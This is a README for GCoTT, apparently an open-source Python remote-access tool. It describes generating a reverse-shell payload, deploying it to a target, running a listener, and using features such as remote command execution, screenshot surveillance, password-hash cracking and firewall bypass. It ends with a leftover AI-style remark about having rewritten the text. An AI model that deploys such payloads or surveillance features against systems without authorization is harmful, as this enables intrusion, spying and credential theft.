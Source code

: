# GCoTT - Get Control Of The Target

[![License: MIT](https://img.shields.io/badge/License-MIT-cyan.svg)](https://opensource.org/licenses/MIT)
[![Python: 3.12+](https://img.shields.io/badge/Python-3.12+-blueviolet.svg)](https://www.python.org/downloads/)
[![Maintenance: Active](https://img.shields.io/badge/Maintenance-Active-success.svg)](https://github.com/cihaneray/GCOTT)
[![OS](https://img.shields.io/badge/OS-Linux%20%7C%20Windows%20%7C%20macOS-orange.svg)]()

## Overview

**GCoTT** is "Get Control of The Target Terminal". It enables authorized users to establish secure connections to remote systems for command execution, file transfer, and system management.

> **IMPORTANT**: This tool is intended for authorized security assessments and legitimate system administration only. Unauthorized use is strictly prohibited and may be illegal.

## Features

- **Interactive Command Console:** Execute shell commands on target systems with real-time output
- **File Transfer:** Upload and download files between control and target systems
- **Directory Navigation:** Browse and traverse the target file system
- **System Intelligence:** Gather information about the target operating system and user context
- **Desktop Surveillance:** Capture and retrieve screenshots from the target machine
- **Interactive Shell:** Establish fully interactive shell sessions on the target
- **Custom Payload Generation:** Create Python payloads with configurable connection parameters
- **Password Decryption Module:** Attempt to crack hashed passwords using various algorithms and wordlists
- **Firewall Bypass Capabilities:** Configure firewall rules to facilitate outbound communication (experimental)
- **User-Friendly Interface:** Clear prompts and color-coded output for improved usability
- **Modular Architecture:** Well-structured codebase designed for extensibility

## Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/username/GCOTT.git
   cd GCOTT
   ```

2. **Verify Python installation:**
   ```bash
   python3 --version
   ```
   Ensure you have Python 3.12 or higher installed.

3. **Install dependencies:**
   ```bash
   pip3 install -r requirements.txt
   ```

## Usage Guide

GCOTT operates on a client-server model with a **listener** (your control system) and a **payload** (the target system).

### Payload Generation

1. Launch GCOTT:
   ```bash
   python3 gcott.py
   ```

2. Access the payload generator:
   ```
   GCOTT -> generate
   ```

3. View available payloads:
   ```
   GCOTT@Payload -> list
   ```

4. Configure your payload:
   ```
   GCOTT@Payload -> set reverseShell.py
   GCOTT@reverseShell -> set host_ip [your_listening_ip]
   GCOTT@reverseShell -> set host_port [your_listening_port]
   ```

5. Generate the payload:
   ```
   GCOTT@reverseShell -> generate
   ```
   This creates a `payload.py` file in the GCOTT directory.

### Listener Setup

1. Launch GCOTT:
   ```bash
   python3 gcott.py
   ```

2. Start the listener:
   ```
   GCOTT -> listen
   ```

3. Configure listener settings:
   ```
   GCOTT@Listen -> show
   GCOTT@Listen -> set host_ip [your_listening_ip]
   GCOTT@Listen -> set host_port [your_listening_port]
   ```

4. Activate the listener:
   ```
   GCOTT@Listen -> execute
   ```

### Payload Deployment

1. Transfer the generated `payload.py` to the target system using an authorized method.

2. Execute the payload on the target system:
   ```bash
   python3 payload.py
   ```

### Target Interaction

Once connected, your prompt will display the target's IP address:
```
[target_ip]@GCOTT->
```

Use the `help` command to view available options:
```
[target_ip]@GCOTT-> help
```

### Password Cracking Module

1. Launch GCOTT:
   ```bash
   python3 gcott.py
   ```

2. Access the password module:
   ```
   GCOTT -> password
   ```

3. Follow the interactive prompts to input hash data and configuration options.

## Payloads Repository

The `payloads` directory contains example Python scripts that can be used as templates. Contributions of additional custom payloads are welcome.

## Contributing

We welcome contributions to GCOTT. Please submit pull requests for bug fixes, new features, or improvements to the existing codebase.

## License

This project is licensed under the MIT License.

## Acknowledgements

- The `termcolor` library for terminal output coloring
- The `pyautogui` library for screenshot capabilities

---

**Reminder**: Always use this tool responsibly and only with proper authorization.
```

This version maintains all the key information while presenting it in a more professional, concise manner. I've reduced some of the flowery language while keeping the important details about installation, usage, and legal considerations.